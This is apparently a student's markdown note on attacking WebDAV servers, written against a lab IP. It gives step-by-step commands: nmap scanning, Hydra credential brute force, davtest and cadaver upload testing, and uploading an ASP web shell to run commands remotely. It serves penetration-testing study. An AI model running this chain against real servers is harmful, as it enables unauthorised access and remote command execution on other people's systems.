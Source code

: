# WebDAV Vulnerabilities

**Step 1** : Gather information  
Quick scan  
Check which port WebDAV is running (80 in the video)
```bash
nmap -sV -sC 10.2.17.124
```
Gather more information
```bash
nmap -sV -p 80 --script=http-enum 10.2.17.124
```
**Step 2**: Brute force   
On browser, type IP address and path to WebDAV with Step 1  
If it authentication enabled -> Try brute force (`Hydra`)  
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
```
**Step 3**: Use WebDAV  
```bash
davtest -url http://<IP>/webdav
```
When it requires authentication  
Check `Summary` to see which types of files can be excuted
```bash
davtest -auth <username>:<password> -url http://<IP>/webdav
```
Access the contents
```bash
cadaver http://<target IP>/webdav
```
**Step 4**: Make change  
In new Terminal tab command below to see wchich web shell available
```bash
ls -al /usr/share/webshells/
#Output
asp/  aspx/  cfm/  jsp/  laudanum/ perl/  php/  seclists/
```
Choose web shell
```bash
ls -al /usr/share/webshells/asp/
```
Upload the web shell to cadava
```bash
put usr/share/webshell/asp/webshell.asp
```
On browser, you can see web shell uploaded  
In the file, type command and hit the Run button to run








#### Note
`Hydra`
- Use to crack various protocol from
  FTP, SSH and Web authentication forms
- -L : file with usernames
- -P : file with passwords

`Web Shell`
- A script or program uploaded to a web server  
  that lets an attacker execute commands remotely through a web browser.

